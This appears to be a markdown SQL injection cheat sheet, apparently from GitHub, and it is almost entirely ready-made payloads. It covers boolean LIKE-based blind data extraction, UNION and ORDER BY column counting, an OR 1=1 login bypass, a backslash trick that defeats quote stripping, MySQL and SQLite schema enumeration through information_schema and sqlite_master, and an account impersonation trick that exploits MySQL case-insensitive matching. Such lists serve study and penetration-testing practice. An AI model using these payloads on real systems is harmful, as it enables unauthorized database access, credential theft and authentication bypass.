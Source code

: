 ### In the following queries, <'> may not work sometimes, so <\`,"> can  be tested
### To comment out the remaining code, <';#',';--',';//'> are used
### While doing sqli through urls, the above things need to be encoded specially <';#',';--',';//'>

## A brute-force approach by asking boolean questions to get some information from database
 ' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --   [It will ask whether a user with letter "a" or "A" containing in his name]
 ' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "\__a%") --	 [It will ask whether the letter is at 3rd place or NOT]
 HERE %,_ are WILDCARDS. % matches any string and _ matches only one character
 By default, LIKE is case-insensitive.
 To make a case sensitive search, use BINARY right after LIKE
 ' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --


## Finding no of columns in table
 ' UNION SELECT 1,2,3.. FROM table_name
 ' ORDER BY n  [If we get error for n, then n-1 will be no of columns]
 
## Limiting no of rows
 ' OR 1=1 LIMIT 1 --

## Special Bypassing
   <?php 
   $name = preg_replace("'","",$name);
   $pass = preg_replace("'","",$pass);
   SELECT * FROM users WHERE username='name' and password='pass'
   attack => user = \  & pass = OR 1=1 --

## For Mysql
### Finding version and databases
  ' UNION SELECT 1,@@version,database(),4,.....
### Extracting Tables from databases
  ' union select 1,group_concat(table_name),3... from information_schema.tables where table_schema=database()
### Extracting columns from databases
  ' union select 1,group_concat(column_name),3... from information_schema.columns where table_schema=database()
  ' UNION SELECT table_name, column_name, 1 FROM information_schema.columns

## For sqlite
 In sqlite sqlite_master replaces information_schema
### Extracting table names
  ' UNION SELECT name FROM sqlite_master WHERE type='table'
### Extracting column names from a table
  ' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces
How to exploit that?
A username `Admin` can be created and it can be used to sign-in as `admin`
